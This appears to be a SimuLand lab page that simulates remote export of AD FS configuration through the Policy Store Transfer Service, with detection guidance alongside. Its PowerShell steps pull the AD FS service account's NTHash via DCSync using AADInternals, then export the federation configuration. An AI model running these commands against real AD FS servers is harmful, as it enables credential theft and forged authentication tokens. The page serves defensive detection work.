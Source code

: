 # Export AD FS Configuration via Policy Store Transfer Service

Based on [recent research](https://o365blog.com/post/adfs/) by [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD), a threat actor could use [AD FS synchronization (Replication services)](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database#how-the-adfs-configuration-database-is-synchronized) and pretend to be a secondary federation server to retrieve the AD FS configuration settings remotely from the primary federation server. 

Legitimate secondary federation servers store a `read-only` copy of the AD FS configuration database and connect to and synchronize the data with the primary federation server in the AD FS farm by polling it at regular intervals to check whether data has changed. A threat actor could use `SOAP messages` (XML documents) to request/sync AD FS configuration settings over a Windows Communication Foundation (WFC) service named `Policy Store transfer Service` on the federation primary server. This service can be accessed via the following URL over HTTP: 
 
```
http://<AD FS Server Name>:80/adfs/services/policystoretransfer
```

![](../../../../images/labs/GoldenSAML/exportADFSConfiguration/2021-06-01_export_adfs_configuration_adfssync.jpg)

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)
    * Network:
        * URL: `http://<adfs server name>:80/adfs/services/policystoretransfer`
        * Port: 80

## Simulation Steps

For this remote variation, we can use use [AADInternals](https://github.com/Gerenios/AADInternals) with the following information:
* IP Address or FQDN of the AD FS server
* NTHash of the AD FS service account
* SID of the AD FS service account 

### Log onto a domain joined workstation

1.  Connect to one of the domain joined workstations in the network via the [Azure Bastion service](../../../../environments/_helper-docs/connectAzVmAzBastion.md) as a [domain admin account](https://github.com/Azure/SimuLand/tree/main/2_deploy/aadHybridIdentityADFS#domain-users-information) (e.g. pgustavo).

### Get Object GUID and SID of the AD FS Service Account

2.  Open PowerShell as Administrator
3.  Use the [Active Directory Service Interfaces (ADSI)](https://docs.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) to search for the AD FS service account object in the domain controller. Make sure you use the name of the `AD FS service account` you created for the lab environment (e.g. adfsadmin).

```PowerShell
$AdfsServiceAccount = 'adfsadmin'
$AdfsAdmin = ([adsisearcher]"(&(ObjectClass=user)(samaccountname=$AdfsServiceAccount))").FindOne() 
$Object = New-Object PSObject -Property @{ 
    Samaccountname = ($AdfsAdmin.Properties).samaccountname 
    ObjectGuid  = ([guid]($AdfsAdmin.Properties).objectguid[0]).guid 
    ObjectSid   = (new-object System.Security.Principal.SecurityIdentifier ($AdfsAdmin.Properties).objectsid[0],0).Value 
}
$Object | Format-List
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_05_get_adfs_service_account.png)

### Install AADInternals

4.  On the same elevated PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals -Force 
Import-Module –Name AADInternals 
```

### Get NTHash of AD FS Service Account via Directory Replication Services (DSR)

5. Get the NTHash of the AD FS service account. AADInternals accomplishes this via [Active Directory Replication Services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) with the [Get-AADIntADUserNTHash](https://github.com/Gerenios/AADInternals/blob/master/DRS_Utils.ps1#L71) function. Make sure you set the right name for the domain controller in your environment (`$Server`).

```PowerShell
$Server = 'DC01.simulandlabs.com'
$creds = Get-Credential

$NTHash = Get-AADIntADUserNTHash –ObjectGuid $Object.ObjectGuid –Credentials $creds –Server $Server -AsHex
$NTHash
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_06_get_adfs_service_account_nthash.png)

### Get AD FS Configuration Settings Remotely

6.  Finally, we can use all the previous information to export the AD FS configuration settings remotely. Make sure you set the right name for the AD FS server in your environment (`$ADFSServer`).

```PowerShell
$ADFSServer = "ADFS01.simulandlabs.com" 
$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $Object.ObjectSid -Server $ADFSServer
$settings 
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_07_get_adfs_settings_remotely.png)

## Detection

### Detect AD FS Remote Synchronization Network Connection

The replication channel used to connect to the AD FS server is over `port 80`. Therefore, we can monitor for incoming network traffic to the AD FS server over HTTP with `Sysmon event id 3 (NetworkConnect)`. For an environment with only one server in the AD FS farm, it is rare to see incoming connections over standard HTTP port from workstations in the network.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_08_adfs_remote_connection_sysmon.png)

Another behavior that we could monitor is the `authorization check` enforced by the AD FS replication service on the main federation server. We can use security events `412` and `501` from the `AD FS auditing` event provider to capture this behavior. These two events can be joined on the `Instance ID` value for additional context and to filter out other authentication events.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_09_adfs_remote_connection_adfsauditing.png)

#### Azure Sentinel Detection Rules

* [AD FS Remote HTTP Network Connection](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSRemoteHTTPNetworkConnection.yaml)
* [AD FS Remote Auth Sync Connection](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSRemoteAuthSyncConnection.yaml)

### Detect Active Directory Replication Services

Even though the use of directory replication services (DRS) is not part of the core behavior to extract the AD FS configuration settings remotely, it is an additional step taken by tools such as [AADInternals](https://github.com/Gerenios/AADInternals) to get the NTHash of the AD FS user account to access the AD FS database remotely.

#### Microsoft Defender for Identity Alerts

**Suspected DCSync attack (replication of directory services)**

The Microsoft Defender for Identity (MDI) sensor, installed on the domain controller, triggers an alert when this occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. 

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_10_m365_mdi_alert_dcsync.png)

#### Microsoft Cloud Application Security Alerts

**Suspected DCSync attack (replication of directory services)**

You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.

1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Cloud App Security](https://portal.cloudappsecurity.com/)”.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_11_m365_mcas_alert_dcsync.png)

## Output

* AD FS Configuration Settings

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)